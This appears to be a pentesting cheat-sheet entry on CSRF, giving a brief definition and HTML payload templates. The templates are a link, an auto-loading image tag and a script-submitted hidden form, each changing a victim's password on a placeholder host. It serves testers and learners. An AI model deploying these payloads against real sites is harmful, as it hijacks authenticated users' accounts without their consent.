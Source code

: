 # CSRF (Cross Site Request Forgery)

**Cross-Site Request Forgery (CSRF)** is a vulnerability where an attacker tricks a user into unknowingly executing actions on a web application that they are authenticated to, leading to unauthorized actions being performed without the user's consent or knowledge.

## Payloads

### GET

```html
# Requires user interaction
<a href="http://<host>/changepasswd.php?pass=pass">Click Me</a>

# No user interaction required
<img src="http://<host>/changepasswd.php?pass=pass">
```

### POST

```html
<form id="form" action="http://<host>/changepasswd.php" method="POST">
 <input name="pass" type="hidden" value="pass" />
 <input type="submit" value="Submit" />
</form>

<-- Auto submit -->
<script>
 document.getElementById("form").submit();
</script>
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)
